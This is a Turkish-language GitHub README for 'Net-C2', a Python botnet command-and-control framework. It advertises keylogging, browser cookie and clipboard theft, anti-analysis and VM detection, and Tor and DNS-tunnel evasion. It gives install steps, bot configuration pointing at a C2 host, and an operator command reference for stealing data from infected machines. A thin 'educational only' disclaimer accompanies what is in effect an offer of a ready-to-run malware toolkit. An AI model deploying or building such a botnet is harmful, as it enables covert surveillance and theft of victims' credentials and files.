

<div align="center">
  
  <h1>Net‑C2</h1>
  <i>Flexible and Powerful Botnet Tool</i>
</div>
---

# 🤖 Advanced Botnet Framework

> **⚠️ EĞİTİM AMAÇLI PROJE** - Bu proje sadece eğitim ve araştırma amaçlıdır. Kötü amaçlarla kullanılması yasaktır.

[](https://python.org)
[](LICENSE)
[](https://github.com)
[](https://github.com)

## 📋 İçindekiler

- [Özellikler](#-özellikler)
- [Mimari](#-mimari)
- [Kurulum](#-kurulum)
- [Kullanım](#-kullanım)
- [Güvenlik Özellikleri](#-güvenlik-özellikleri)
- [Web Dashboard](#-web-dashboard)
- [Komut Referansı](#-komut-referansı)
- [Ekran Görüntüleri](#-ekran-görüntüleri)
- [Lisans ve Kullanım](#-lisans-ve-kullanım)

## 🚀 Özellikler

### 🔐 Güvenlik ve Şifreleme
- **AES-256-CBC** şifreleme sistemi
- **Anti-Analysis** sistemleri (Wireshark tespiti)
- **Tor Network** desteği
- **IPv6** ve **IPv4** dual-stack desteği
- **DNS Tunneling** desteği
- **P2P Network** fallback sistemi

### 🤖 Bot Özellikleri
- **Cross-Platform** desteği (Windows, Linux, macOS)
- **Real-time Keylogger** sistemi
- **Clipboard** izleme ve veri çalma
- **Browser Cookie** çalma
- **File Upload/Download** sistemi
- **Process Monitoring** (gerçek CPU kullanımı)
- **Screenshot** alma
- **System Information** toplama
- **VM Detection** (sanal makine tespiti)

### 🌐 Web Dashboard
- **Modern Flask** tabanlı web arayüzü
- **Real-time** bot durumu takibi
- **Interactive** komut gönderme
- **Security Alerts** görüntüleme
- **P2P Network** durumu
- **Tor/Clearnet** bot ayrımı
- **Responsive** tasarım

### 🔍 Gelişmiş Özellikler
- **Network Mapping** (ağ keşfi)
- **Vulnerability Scanner** entegrasyonu
- **Multi-threaded** işlemler
- **Automatic reconnection** sistemi
- **Environment variable** desteği
- **Comprehensive help** sistemi

## 🏗️ Mimari

```
Botnet/
├── Server.py              # C2 Sunucu (Ana Kontrol)
├── Net.py                 # Bot İstemcisi
├── web_dashboard.py       # Web Dashboard
├── clipboard_data/        # Clipboard Verileri
├── cookies/              # Browser Cookies
├── downloads/            # İndirilen Dosyalar
└── README.md
```

### 🔄 İletişim Akışı



## 📦 Kurulum

### Gereksinimler

```bash
# Python 3.8+ gerekli
python3 --version

# Gerekli paketler
pip install pycryptodome pynput flask requests stem psutil browser-cookie3
```

### Hızlı Kurulum

```bash
# Repository'yi klonla
git clone https://github.com/yourusername/botnet-framework.git
cd botnet-framework

# Gerekli paketleri yükle
pip install -r requirements.txt
```

### requirements.txt

```txt
pycryptodome>=3.15.0
pynput>=1.7.6
flask>=2.0.0
flask-socketio>=5.0.0
requests>=2.25.0
stem>=1.8.0
psutil>=5.8.0
browser-cookie3>=0.15.0
dnslib>=0.9.0
```

## 🎯 Kullanım

### 1. C2 Sunucuyu Başlat

```bash
python3 Server.py
```

**Varsayılan Ayarlar:**
- Host: `0.0.0.0`
- Port: `8080`
- Keylogger Port: `8081`
- Encryption: `AES-256-CBC`

### 2. Bot'u Başlat

```bash
python3 Net.py
```

**Environment Variables:**
```bash
export C2_HOST=192.168.1.100
export C2_PORT=8080
python3 Net.py
```

### 3. Web Dashboard'u Başlat

```bash
# Server.py içinden
web start

# Erişim: http://localhost:5500
```

## 🔒 Güvenlik Özellikleri

### 🔐 Şifreleme Sistemi

- **AES-256-CBC**: Ana şifreleme katmanı
- **Otomatik key generation**: Güvenli anahtar üretimi
- **Encrypted communication**: Tüm iletişim şifreli

### 🛡️ Anti-Analysis Sistemi

```python
# Wireshark tespiti
if self.check_for_analysis_tools():
    print("[!] Analysis tool detected!")
    self.send_analysis_alert()
```

### 🔄 Güvenlik Kuralları

1. **Rule #1**: C2 Bağlı → P2P KAPALI
2. **Rule #2**: Analysis Tool Tespit → Güvenlik Modu
3. **Rule #3**: C2 Başarısız → Fallback Channels

### 🌐 Tor Network Desteği

```bash
# Tor komutları
tor enable    # Tor'u etkinleştir
tor disable   # Tor'u devre dışı bırak
tor status    # Tor durumunu kontrol et
tor bots      # Tor üzerinden bağlanan botları listele
```

### 🔍 DNS Tunneling

```bash
# DNS Tunneling komutları
dns_tunnel enable example.com    # DNS tunneling'i etkinleştir
dns_tunnel disable              # DNS tunneling'i devre dışı bırak
dns_tunnel status              # DNS tunneling durumu
```

## 🌐 Web Dashboard

### 📊 Ana Özellikler

- **Real-time Bot Monitoring**: Canlı bot durumu takibi
- **Interactive Command Interface**: Web üzerinden komut gönderme
- **Security Alerts Display**: Güvenlik uyarılarını görüntüleme
- **Modern UI**: Cyberpunk temalı modern arayüz
- **Responsive Design**: Mobil uyumlu tasarım

### 🎨 Arayüz Özellikleri

- **Dark Theme**: Göz yormayan koyu tema
- **Purple Color Scheme**: Mor renk paleti
- **Real-time Updates**: Anlık veri güncellemeleri
- **Interactive Cards**: Etkileşimli kart tasarımı

## 📋 Komut Referansı

### 🔧 Temel Komutlar

```bash
# Bot listesi
list

# Bot bilgileri
server

# Komut gönderme
cmd <bot_id> <command>

# Broadcast komut
broadcast <command>

# Process listesi (gerçek CPU kullanımı ile)
processes <bot_id>

# Sistem bilgileri
sysinfo <bot_id>

# VM kontrolü
isvm <bot_id>
```

### 📁 Dosya İşlemleri

```bash
# Dosya yükleme
upload <bot_id> <local_file> [remote_name]

# Dosya indirme
download <bot_id> <remote_file> [local_path]

# Ekran görüntüsü
screenshot <bot_id>
```

### 🔍 Veri Toplama

```bash
# Cookie çalma
cookies <bot_id>

# Clipboard başlat/durdur
copy start <bot_id>
copy stop <bot_id>

# Keylogger başlat/durdur
keylogger start <bot_id>
keylogger stop <bot_id>
```

### 🌐 Ağ Komutları

```bash
# Network mapping
network_map start <bot_id> [scope]
network_map status <bot_id>
network_map stop <bot_id>
```

### 🔍 Güvenlik Komutları

```bash
# Güvenlik durumu
security

# Uyarıları görüntüle
alerts

# P2P durumu
p2p status
```

### ❓ Help Sistemi

```bash
# Herhangi bir komut için help
<command> ?

# Örnekler:
processes ?
keylogger ?
upload ?
tor ?
```

## 🖼️ Ekran Görüntüleri

### C2 Server Terminal
```
╔══════════════════════════════════════════════════════════════════════════════╗
║                    [Flexible and Powerful Botnet Tool]                       ║
║  ___   __    ______   _________         ______   _____                       ║
║ /__/\ /__/\ /_____/\ /________/\       /_____/\ /_____/\                     ║
║ \::\_\\  \ \\::::_\/_\__....__\/_______\:::__\/ \:::_:\ \                    ║
║  \:. `-\  \ \\:\/___/\  \::\ \ /______/\\:\ \  __   _\:\|                    ║
║   \:. _    \ \\::___\/_  \::\ \\__::::\/ \:\ \/_/\ /::_/__                   ║
║    \. \`-\  \ \\:\____/\  \::\ \          \:\_\ \ \\:\____/\                 ║
║     \__\/ \__\/ \_____\/   \__\/           \_____\/ \_____\/                 ║
║                                By: Fatih Emre                                ║
║                                     version: 2.0                             ║
╚══════════════════════════════════════════════════════════════════════════════╝

[+] Server started on 0.0.0.0:8080
[+] Keylogger server started on 192.168.237.191:8081
[+] New bot connected: Fatihs-MacBook-Pro.local-xxxxx (192.168.237.191)
```

### Web Dashboard
- Modern cyberpunk temalı arayüz
- Real-time bot durumu
- Interactive komut paneli
- Güvenlik uyarıları
- P2P network durumu

## 🔧 Gelişmiş Özellikler

### 🔄 P2P Network

```python
# P2P ağını başlat
p2p_result = bot.start_p2p()
print(f"P2P Port: {bot.p2p_port}")
print(f"IPv6 Support: {bot.ipv6_enabled}")
```

### 📊 Process Monitoring

```python
# Gerçek CPU kullanımı ile process listesi
processes = bot.get_processes_with_real_cpu()
```

### 🔍 System Analysis

```python
# Detaylı sistem analizi
system_info = bot.gather_system_info()
vm_check = bot.check_vm_environment()
```

## 🚨 Güvenlik Uyarıları

### ⚠️ Önemli Notlar

1. **Bu proje sadece eğitim ve araştırma amaçlıdır**
2. **Kötü amaçlarla kullanım kesinlikle yasaktır**
3. **Kullanıcı tüm sorumluluğu kabul eder**
4. **Yasal sınırlar içinde kullanılmalıdır**
5. **Sadece kendi sistemlerinizde test edin**

### 🔒 Güvenlik Önlemleri

- Tüm iletişim AES-256 ile şifrelenir
- Anti-analysis sistemleri aktif
- VM detection mevcut
- Güvenlik kuralları otomatik çalışır

## 📄 Lisans ve Kullanım

### 📜 Telif Hakkı

**Bu kod tamamen bana aittir (Fatih Emre).** 

### ✅ İzin Verilen Kullanımlar

- ✅ **Eğitim amaçlı** kullanım
- ✅ **Araştırma** amaçlı kullanım  
- ✅ **Kişisel öğrenme** için kullanım
- ✅ **Güvenlik testleri** (sadece kendi sistemlerinizde)
- ✅ **Kod inceleme** ve öğrenme
- ✅ **Fork** yapma ve geliştirme

### ❌ Kesinlikle Yasak Olan Kullanımlar

- ❌ **Bu kodu "kendi yaptım" diye yayınlamak**
- ❌ **Telif hakkı bilgilerini kaldırmak**
- ❌ **Ticari amaçlı kullanım** (izin almadan)
- ❌ **Kötü amaçlı kullanım**
- ❌ **Başkalarının sistemlerine saldırı**
- ❌ **Yasal olmayan faaliyetler**

### 🔒 Kullanım Şartları

```
MIT License ile açık kaynak olarak paylaşılmıştır.

ANCAK:
- Kod sahibi: Fatih Emre
- Bu kodu başkasının yapmış gibi göstermek YASAKTIR
- Telif hakkı bilgileri korunmalıdır
- Kötü amaçlı kullanım yasaktır
```

## 🤝 Katkıda Bulunma

### 📝 Katkı Süreci

1. Fork yapın
2. Feature branch oluşturun (`git checkout -b feature/YeniOzellik`)
3. Commit yapın (`git commit -m 'Yeni özellik eklendi'`)
4. Push yapın (`git push origin feature/YeniOzellik`)
5. Pull Request açın

### 🐛 Bug Report

Hata bildirimi için GitHub Issues kullanın:

```markdown
**Hata Açıklaması:**
- Ne oldu?
- Beklenen davranış?
- Gerçekleşen davranış?

**Sistem Bilgileri:**
- OS: [Windows/Linux/macOS]
- Python Version: [3.8+]
- Botnet Version: [2.0]
```

## 🙏 Teşekkürler

- **Python Community** - Harika kütüphaneler için
- **Security Researchers** - Güvenlik araştırmaları için
- **Open Source Community** - İlham ve motivasyon için

## 📞 İletişim

- **GitHub:** Bu repository üzerinden
- **Issues:** GitHub Issues kullanın
- **Discussions:** GitHub Discussions

---

<div align="center">

**⭐ Bu projeyi beğendiyseniz yıldız vermeyi unutmayın! ⭐**

**🔥 Kod tamamen bana aittir - Fatih Emre 🔥**

*Eğitim amaçlı geliştirilmiştir. Sorumlu kullanın.*

**⚠️ Bu kodu "kendi yaptım" diye yayınlamak YASAKTIR! ⚠️**

</div>
